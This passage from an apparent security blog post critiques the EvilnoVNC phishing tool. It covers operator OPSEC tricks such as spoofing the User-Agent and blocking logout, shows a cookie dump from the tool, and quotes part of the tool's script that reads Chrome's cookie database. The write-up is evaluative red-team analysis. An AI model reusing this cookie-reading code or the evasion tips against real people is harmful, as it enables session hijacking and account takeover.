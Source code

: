 On the other hand, the operator is heavily restricted in order to achieve a minimum of OPSEC. As an example, we can think about the most basic check we should bypass: User-Agent. Mimicking the User-Agent used by the victim is trivial when dealing with proxies, as we only need to forward it in the request from our server to the real website. In the case of a browser using kiosk mode this change is a bit more difficult to achieve. And the same applies to other modifications that we would like to make to the original request, like, for example, blocking the navigation to a `/logout` endpoint that would nuke the session.

Another **fun fact** about this tool is... it doesn't work. If you test the tool you will find this:
```
psyconauta@insulanova:/tmp/EvilnoVNC/Downloads|main⚡ ⇒  cat Cookies.txt 

        Host: .google.com
        Cookie name: AEC
        Cookie value (decrypted): Encrypted
        Creation datetime (UTC): 2022-09-10 19:44:54.548204
        Last access datetime (UTC): 2022-09-10 21:31:39.833445
        Expires datetime (UTC): 2023-03-09 19:44:54.548204
        ===============================================================

       Host: .google.com
        Cookie name: CONSENT
        Cookie value (decrypted): Encrypted
        Creation datetime (UTC): 2022-09-10 19:44:54.548350
        Last access datetime (UTC): 2022-09-10 21:31:39.833445
        Expires datetime (UTC): 2024-09-09 19:44:54.548350
        ===============================================================
(...)
```

Which is really odd. If you check the code from the [GitHub](https://github.com/JoelGMSec/EvilnoVNC/blob/main/Files/cookies.py)...
```python
import os
import json
import base64
import sqlite3
from datetime import datetime, timedelta

def get_chrome_datetime(chromedate):
    """Return a `datetime.datetime` object from a chrome format datetime
    Since `chromedate` is formatted as the number of microseconds since January, 1601"""
    if chromedate != 86400000000 and chromedate:
        try:
            return datetime(1601, 1, 1) + timedelta(microseconds=chromedate)
        except Exception as e:
            print(f"Error: {e}, chromedate: {chromedate}")
            return chromedate
    else:
        return ""

def main():
    # local sqlite Chrome cookie database path
    filename = "Downloads/Default/Cookies"
    # connect to the database
    db = sqlite3.connect(filename)
    # ignore decoding errors
    db.text_factory = lambda b: b.decode(errors="ignore")
    cursor = db.cursor()
    # get the cookies from `cookies` table
    cursor.execute("""
    SELECT host_key, name, value, creation_utc, last_access_utc, expires_utc, encrypted_value 
    FROM cookies""")
    # you can also search by domain, e.g thepythoncode.com
```